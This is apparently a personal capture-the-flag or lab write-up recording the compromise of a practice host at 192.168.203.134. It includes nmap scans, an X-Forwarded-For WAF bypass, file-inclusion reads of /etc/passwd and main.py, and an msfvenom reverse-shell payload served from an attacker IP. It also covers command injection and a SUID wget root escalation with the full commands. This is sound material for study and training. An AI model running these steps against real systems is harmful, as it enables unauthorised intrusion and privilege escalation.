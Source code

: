 > Noamro08 - 7 Feb 2024

### Target - 192.168.203.134

----
nmap scan top 1000 ports services and default scripts:
```bash
nmap -Pn -n -sVC 192.168.203.134 -oN inital.scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-07 13:09 IST
Nmap scan report for 192.168.203.134
Host is up (0.083s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

nmap scan for all ports:
```bash
nmap -Pn -n -p- 192.168.203.134 -oN all.ports
```
we get port 13337 but without service recognition

scan default scripts and service for this specific port 13337:
```bash
nmap -Pn -n -sVC 192.168.203.134 -p 13337       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-07 13:25 IST
Nmap scan report for 192.168.203.134
Host is up (0.085s latency).

PORT      STATE SERVICE VERSION
13337/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Remote Software Management API

```

https site for management API:
![[Pasted image 20240207134554.png]]

GET /version:
1.0.0b8f887f33975ead915f336f57f0657180
![[Pasted image 20240207134645.png]]

```
/update

Methods: POST

Updates the app using a linux executable. Content-Type: application/json {"user":"<user requesting the update>", "url":"<url of the update to download>"}

```
this one is very interesting because maybe we could get the server to download malicious file from our http.server, 
trying to do this we need valid username.

GET /logs:
maybe we can get logs of valid user from here but we get an error: 
'WAF: Access Denied for this Host.'

so we try to search bypasses for this specific error, and we find this article "https://medium.com/r3d-buck3t/bypass-ip-restrictions-with-burp-suite-fb4c72ec8e9c"

Due to this article we can add the header "X-Forwarded-For: 127.0.0.1" to trick the WAF thinking this request is from localhost:
![[Pasted image 20240207135131.png]]
we get an error to no file mentioned.... i smell LFI here for sure!
![[Pasted image 20240207135217.png]]
and it works we disclosed **/etc/passwd** and we now have valid username for our next attack.
user is: **clumsyadmin**

created shell.elf with msfvenom:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.242 LPORT=80 -f elf > shell.elf
```

and open http.server:
```bash
python3 -m http.server 8081
```

![[Pasted image 20240207135626.png]]
it worked, now we just need to open nc listener and restart the server.

in the site we can see we can GET /restart, so this solve our problem...
still it does not working the restart not executing our shell.

so i try to enumerate more with the LFI we found on "/logs?file=",
so we know from the nmap it is API written in python lets try search "main.py"
![[Pasted image 20240207141125.png]]
it works and we can see that the command that that update the server and download the file we sent is executed with the function 'os.system' which maybe we can do a command injection here:
![[Pasted image 20240207141450.png]]
it works, so now lets get rev shell:
![[Pasted image 20240207142255.png]]
got it! 

now improve our shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm

CTRL Z
---
stty size                            
42 189

stty raw -echo; fg
---
stty rows 42 columns 189
```

getting linpeas.sh to the target, we see that there is suid bit on 'wget' command:
![[Pasted image 20240207144411.png]]

According to this article from [gtfobins](https://gtfobins.github.io/gtfobins/wget/#suid) we can use this commands to get the root:
```bash
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
./wget --use-askpass=$TF 0
```

![[Pasted image 20240207144816.png]]
